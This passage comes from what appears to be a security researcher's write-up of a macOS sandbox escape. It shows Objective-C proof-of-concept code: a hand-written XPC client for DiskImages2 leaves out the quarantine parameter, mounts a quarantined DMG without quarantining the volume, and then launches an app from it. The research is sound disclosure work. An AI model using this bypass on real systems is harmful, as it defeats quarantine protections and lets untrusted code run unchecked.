 The XPC client has already been implemented in the `DiskImages2.framework` as the objective-c class **DIAttachParams**. And the XPC connection can be established via the method “`-[DIAttachParams newAttachWithError:]`”. So I could reuse the framework code directly like this to attach a DMG volume without reinventing the wheels:

```
NSError *error=nil;
DIAttachParams *params = [[DIAttachParams alloc] initWithURL:[NSURL fileURLWithPath:@"quarantined_payload.dmg"] error:&error];
[params newAttachWithError:&error];
```

However, I discovered that the **client code** in the framework will **check** whether the input URL is quarantined:

![image-20241020160238432](../res/2024-11-7-A-New-Era-of-macOS-Sandbox-Escapes/image-20241020160238432.png)

If the input URL is quarantined, it will set the **quarantine parameter** before invoking the XPC method to attach. This will notify the XPC service to quarantine the target device.

So in my own XPC client, I can **skip the quarantine parameter setting** and invoke the XPC method to attach directly. As a result, the XPC service will **attach a quarantined DMG file without quarantining the corresponding device**.

### The exploit and demo

In order to skip setting the quarantine parameter, I have to **rewrite the XPC client code** by myself:

```
@protocol DIControllerProtocol
- (void)dupWithStderrHandle:(NSFileHandle *)arg1 reply:(void (^)(NSError *))arg2;
- (void)attachWithParams:(DIAttachParams *)arg1 reply:(void (^)(NSError *))reply;
@end
@interface DIController2Client : NSObject<DIController2ClientProtocol>
@end
@implementation DIController2Client
- (void)attachCompletedWithHandle:(NSFileHandle *)handle reply:(void (^)(NSError *))reply {
    NSLog(@"attachCompletedWithHandle:%@", handle);
    system("open /Volumes/.exploit/poc.app"); // launch the app from the payload.dmg (unquarantined mounting)
    reply(0);
}
```
